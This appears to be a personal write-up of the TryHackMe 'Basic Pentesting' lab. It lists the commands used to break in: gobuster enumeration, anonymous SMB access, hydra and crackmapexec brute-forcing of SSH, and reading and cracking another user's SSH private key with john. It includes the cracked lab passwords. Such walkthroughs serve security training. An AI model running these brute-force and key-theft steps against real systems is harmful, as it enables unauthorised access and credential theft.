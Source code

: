 ```yaml
---
title: Basic Pentesting
description: 'Basic pentesting with GoBuster, crackmapexec and john the ripper'
pubDate: 2020-08-21
category: 'tryhackme'
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/99c72676aab814b94e3bc350ba627b71.png'
---
```


## ENUM
```bash
- gobuster dir -u http://10.10.108.101/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x md,txt -t 30 -o gobust_root.txt
    /development
        - dev.txt -> struts / REST v2.5.12 (https://www.exploit-db.com/exploits/42627 ?)
        - j.txt -> J has a weak password
```

### SMB
    - smbclient -U '' //10.10.108.101/Anonymous
    - get staff.txt
        users:
        Jan
        Kay


### SSH
    - crackmapexec ssh 10.10.108.101 -u jan -p /usr/share/wordlists/rockyou.txt
    OR:
    - hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.108.101 -t 4 ssh
    [22][ssh] host: 10.10.108.101   login: jan   password: armando

### PRIVESC
    - cat /home/kay/.ssh/id_rsa -> kay_id_rsa
    - python /usr/share/john/ssh2john.py kay_id_rsa > kay_id_rsa.hash
    - john --wordlist=/usr/share/wordlists/rockyou.txt kay_id_rsa.hash
        beeswax

### SSH to get pass.bak
    cat /home/kay/pass.bak -> heresareallystrongpasswordthatfollowsthepasswordpolicy$$
